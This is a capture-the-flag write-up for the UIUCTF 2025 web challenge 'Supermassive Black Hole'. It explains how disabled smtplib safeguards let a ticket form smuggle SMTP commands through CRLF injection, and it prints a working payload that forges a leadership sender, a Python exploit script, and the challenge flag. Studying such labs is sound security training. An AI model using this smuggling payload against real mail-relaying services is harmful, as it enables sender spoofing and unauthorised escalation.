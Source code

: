 ```yaml
---
title: UIUCTF 2025 - Supermassive Black Hole
date: 2025-07-30
lastmod: 2025-07-30T13:00:30+02:00
categories:
  - writeup
  - uiuctf25
tags:
  - web
  - python
  - CRLF injection
  - medium
authors:
  - Valenter
---
```

*Black Hole Ticketing Services prides itself on losing tickets at the speed of light. Can you get them to escalate?*

Welcome back to the second installment in this series of cyber-spacefaring challenges from uiuctf.

![Homepage](/uiuctf2025/supermassive-black-hole/screenshot-1.png)
Not as fancy as [*Ruler of the Universe*]({{< ref "posts/uiuctf25-ruler-of-the-universe/index.md" >}}), but far less dystopian than some real-world customer service centers.

The *About us* page contains some useful information, namely leadership@blackholeticketing.com, that will come in handy later.

![About-us](/uiuctf2025/supermassive-black-hole/screenshot-2.png)

## Dissecting the Event‑Horizon Mail Hub

There's an SMTP server running internally on port 1025, unfortunately, the port isn't exposed to us, so we can't interact with it directly:

`smtp_server.py`
```python
async def start_server():
    init_database()
    
    it_handler = ITBotHandler()
    controller = Controller(it_handler, hostname='localhost', port=1025)
    
    controller.start()
    
    return controller

async def main():
    controller = await start_server()
    
    try:
        while True:
            await asyncio.sleep(5)
    except KeyboardInterrupt:
        controller.stop()

if __name__ == "__main__":
    asyncio.run(main())
```

Luckily, though, we don't need to, the server does all the work for us, everything we type into the ticket submission form gets conveniently inserted into a pre-packaged `message` and relayed to the SMTP listener:

`web_server.py`
```python
        message_data = f"""\
From: support@blackholeticketing.com\r\n\
To: it@blackholeticketing.com\r\n\
Subject: {subject}\r\n\
X-Ticket-ID: {ticket_id}\r\n\
\r\n\
{message}\r\n\
.\r\n""".encode()

        ending_count = message_data.count(b'\r\n.\r\n')
        if ending_count != 1:
            raise ValueError("Bad Request")

        with smtplib.SMTP('localhost', 1025) as client:
            client.helo("example.com")
            client.sendmail('support@blackholeticketing.com', ['it@blackholeticketing.com'], message_data)
            # Wait a second for SMTP to process the ticket
            time.sleep(1)

        ticket_data = {
            'id': ticket_id,
            'timestamp': int(time.time() * 1000),
            'from': 'support@blackholeticketing.com',
            'subject': subject,
            'body': message,
            'status': 'submitted'
        }

        return render_template('ticket_submitted.html', ticket_data=ticket_data)
```

If we can somehow manage to change the sender address to leadership@blackholeticketing.com, and impersonate their star‑fleet commander‑in‑chief, the server will print out the flag for us.

`smtp_server.py`
```python
from_header = message.get('From', 'Unknown')
subject = message.get('Subject', 'No Subject')
body = str(message.get_payload())
ticket_id = message.get('X-Ticket-ID', f'{int(time.time())}_{self.processed_count}')
            
if internal.leadership_email in from_header.lower():
    response = "C-Suite ticket received! Will escalate immediately!" + f"\n{internal.flag}"
elif internal.support_email in from_header.lower():
    response = "Request for support received! Will resolve after lunch break."
else:
    response = "Please use our support portal to submit a ticket."
```

Now, the Intergalactic Postal Center must suffer from the same understaffing and underpaying issues we have here on Earth, because somebody decided it would be a good idea to override every inherent safety function in the Python SMTP library:

```python
try:
    smtplib._fix_eols = return_unchanged
    smtplib._quote_periods = return_unchanged
    smtplib.SMTP.data = new_data
```

- **`_fix_eols`** normally converts `\n` into `\r\n` to follow the SMTP standard,
- **`_quote_periods`** does dot-stuffing (adds an extra period at the start of every line that begins with a period),
- **`SMTP.data`** was patched with `new_data`.

It instead only runs one check:

```python
ending_count = message_data.count(b'\r\n.\r\n')
if ending_count != 1:
    raise ValueError("Bad Request")
```
it counts the number of terminators and allows there to be only one, this is to prevent us from closing our message and crafting a new one inside the same input.
But since `fix_eols` is deactivated, this is vulnerable to **CRLF injection**.

## Examining the vulnerability

We can use `\n.\r\n`, a.k.a *LF‑dot‑CRLF*, to close our crafted message, the SMTP server will recognize a dot-only line as end-of-DATA, and everything that follows (`MAIL FROM:…`, `RCPT TO:…`, etc.) will be interpreted  as new SMTP commands.

#### The payload

```smtp
"\n.\r\n"
"MAIL FROM:<ceo@supermassive.inc>\r\n"
"RCPT TO:<it@blackholeticketing.com>\r\n"
"DATA\r\n"
"From: leadership@blackholeticketing.com\r\n"
"To: it@blackholeticketing.com\r\n"
"Subject: escalate\r\n"
"X-Ticket-ID: 1444\r\n"
"\r\n"
"pls fix asap\r\n"
".\n"
```
*Ticket-ID was added only for convenience and is not necessary for the final exploit*

Thus we add our own custom sender and receiver and pass the message on to the server.
#### Final script

```python
#!/usr/bin/env python3
import requests, time, textwrap

#BASE = "http://localhost:8080"
BASE = "https://inst-4e64969ec136b504-supermassive-black-hole.chal.uiuc.tf/"

payload = (
    "\n.\r\n"                                   
    "MAIL FROM:<ceo@supermassive.inc>\r\n"
    "RCPT TO:<it@blackholeticketing.com>\r\n"
    "DATA\r\n"
    "From: leadership@blackholeticketing.com\r\n"
    "To: it@blackholeticketing.com\r\n"
    "Subject: escalate\r\n"
    "X-Ticket-ID: 1444\r\n"                      
    "\r\n"
    "pls fix asap\r\n"
    ".\n"                                        
)     

#injection ticket
requests.post(f"{BASE}/submit_ticket",
              data={"subject": "Outage", "message": payload})

#wait for the bot to process
time.sleep(2)


resp = requests.get(f"{BASE}/check_response/1444").json()
print(resp["response"])
```

**`uiuctf{7h15_c0uld_h4v3_b33n_4_5l4ck_m355463_8091732490}`**